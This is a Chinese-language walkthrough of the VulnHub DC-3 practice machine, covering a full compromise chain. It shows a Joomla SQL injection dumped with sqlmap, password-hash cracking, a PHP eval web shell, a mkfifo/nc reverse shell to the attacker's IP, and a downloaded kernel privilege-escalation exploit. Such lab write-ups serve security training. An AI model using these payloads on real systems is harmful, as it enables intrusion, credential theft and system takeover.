# DC 3

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-3,312/



## 知识点

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 172.16.8.0/24 # IP探测 扫描本地C段的网络端口信息
# 192.168.2.16
nmap -A -p- -T4 172.16.8.71
```

目标是joomla的网站


## 漏洞利用

```bash
joomscan --url http://172.16.8.71 # 看出Joomla 3.7.0
searchsploit Joomla 3.7.0  # 寻找框架漏洞
```



目标版本存在SQL注入漏洞

```
cp /usr/share/exploitdb/exploits/php/webapps/42033.txt  jommla.txt
cat  jommla.txt
```



```bash
sqlmap -u "http://172.16.8.71/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```


```
sqlmap -u "http://172.16.8.71/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump
```



利用 johnny 暴力破解,获得密码为snoopy

```
echo "\$2y\$10\$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

登录后台`http://172.16.8.71/administrator/index.php`





新建test.php,插入木马一句话

```php
<?php eval($_POST[1]);?>
```

蚁剑连接
```
http://172.16.8.71/templates/beez3/test.php
```




反弹shell
```bash
nc -lnvp 1337
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.8.68 1337 >/tmp/f');?>
# 上面写到test文件里
```



可见权限是www-data，接下来是内核提权

信息收集
```bash
lsb_release -a
uname -a
```



```bash
searchsploit ubuntu 16.04 4.4.x
earchsploit -m 39772
cat 39772.txt
proxychains4 wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

传输exp
```
python -m SimpleHTTPServer 80
wget http://10.30.0.81/39772.zip
unzip 39772.zip && cd 39772 && tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit && sh compile.sh
./doubleput
```




## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC3-WalkThrough.md
- http://www.kxsy.work/2021/08/11/shen-tou-dc-3/